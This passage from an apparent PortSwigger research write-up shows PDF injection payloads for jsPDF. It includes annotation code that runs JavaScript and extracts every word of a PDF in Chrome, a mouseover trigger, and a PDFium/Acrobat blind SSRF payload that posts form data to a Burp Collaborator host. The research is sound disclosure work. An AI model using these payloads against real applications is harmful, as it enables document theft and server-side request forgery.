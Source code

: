 [Full code](https://github.com/PortSwigger/portable-data-exfiltration/blob/main/PDF-research-samples/jsPDF/chrome/enumerator/test.js)

Inspecting the output of the enumerator, I tried calling various functions in the hope of making external requests or gathering information from the PDF. Eventually, I found a very interesting function called getPageNthWord, which could extract words from the PDF document, thereby allowing me to steal the contents. The function has a subtle bug where the first word sometimes will not be extracted. But for the most part, it will extract the majority of words:`var doc = new jsPDF();`  \
``doc.createAnnotation({bounds:{x:0,y:10,w:200,h:200},type:'link',url:`#)>> <</Type/Annot/Rect[0 0 900 900]/Subtype/Widget/Parent<</FT/Btn/T(a)>>/A<</S/JavaScript/JS(``  \
`words = [];`  \
`for(page=0;page<this.numPages;page++) {`  \
`for(wordPos=0;wordPos<this.getPageNumWords(page);wordPos++) {`  \
`word = this.getPageNthWord(page, wordPos, true);`  \
`words.push(word);`  \
`}`  \
`}`  \
`app.alert(words);`  \
`` `}); ``  \
`doc.text(20, 20, 'Click me test');`  \
`doc.text(20, 40, 'Abc Def');`  \
`doc.text(20, 60, 'Some word');`

I was pretty pleased with myself that I could steal the contents of the PDF on Chrome as I never thought this would be possible. Combining this with the submitForm vector would enable you to send the data to an external server. The only downside is that it requires a click. I wondered if you could get JavaScript execution without a click on Chrome. Looking at the PDF specification again, I noticed that there is another entry in the annotation dictionary called "E", which will execute the annotation when the mouse enters the annotation area - basically a mouseover event. Unfortunately, this does not count as user interaction to enable a form submission. So although you can execute JavaScript, you can't do anything with the data because you can't send it to an external server. If you can get Chrome to submit data with this event, please let me know because I'd be very interested to hear how. Anyway, here is the code to trigger a mouseover acton:`var doc = new jsPDF();`  \
``doc.createAnnotation({bounds:{x:0,y:10,w:200,h:200},type:'link',url:`/) >> >>``  \
``<</Type /Annot /Subtype /Widget /Parent<</FT/Btn/T(a)>> /Rect [0 0 900 900] /AA <</E <</S/JavaScript/JS(app.alert(1))>>/(`});``  \
`doc.text(20, 20, 'Test');`

## SSRF in PDFium/Acrobat

It's possible to send a POST request with PDFium/Acrobat to perform a SSRF attack. This would be a [blind SSRF](https://portswigger.net/web-security/ssrf/blind) since you can make a POST request but can't read the response. To construct a POST request, you can use the /parent dictionary key as demonstrated earlier to assign a form element to the annotation, enabling JavaScript execution. But instead of using a button like we did before, you can assign a text field (/Tx) with the parameter name (/T) and parameter value (/V) dictionary keys. Notice how you have to pass the parameter names you want to use to the submitForm function as an array:`#)>>>><</Type/Annot/Rect[ 0 0 900 900]/Subtype/Widget/Parent<</FT/Tx/T(foo)/V(bar)>>/A<</S/JavaScript/JS(`  \
`app.alert(1);`  \
`this.submitForm('https://aiws4u6uubgfdag94xvc5wbrfilc91.burpcollaborator.net', false, false, ['foo']);`  \
`)/(`
